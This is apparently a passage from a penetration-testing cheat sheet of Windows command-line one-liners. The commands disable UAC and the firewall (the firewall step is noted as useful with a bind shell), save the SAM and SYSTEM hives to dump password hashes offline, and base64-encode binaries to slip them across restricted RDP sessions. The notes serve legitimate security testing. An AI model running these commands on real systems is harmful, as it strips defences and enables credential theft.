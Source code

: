 Starting a wifi hotspot using Windows cmd with ssid name `hotspotname` and key `password`

![Windows wifi hotspot using cmd](images/wifihotspot.jpg)

### Disable UAC via cmdline

```
C:\> reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\policies\system /v EnableLUA /t REG_DWORD /d 0 /f
```
###Turn off Windows firewall for all profiles

**Useful if you have a bind shell**

```
C:\> netsh advfirewall set allprofiles state off
```
###List Missing Updates

```
PS C:\> (New-Object -c Microsoft.Update.Session).CreateUpdateSearcher().Search("IsInstalled=0").Updates|Select Title
```

###Export SAM and SYSTEM Dump password hashes offline

```
C:\>reg save HKLM\SAM SAM
C:\>reg save HKLM\SYSTEM SYSTEM
```

###Convert Binary to base64 string to transfer across restricted RDP

```
PS C:\> [Convert]::ToBase64String((gc -Pa "a.exe" -En By))
```

###Convert Base64 string to Binary

```
PS C:\> sc -Path "a.exe" -Val ([Convert]::FromBase64String((gc -Pa "b64.txt" ))) -En By
```
###List services running as SYSTEM and possibly weak file permissions
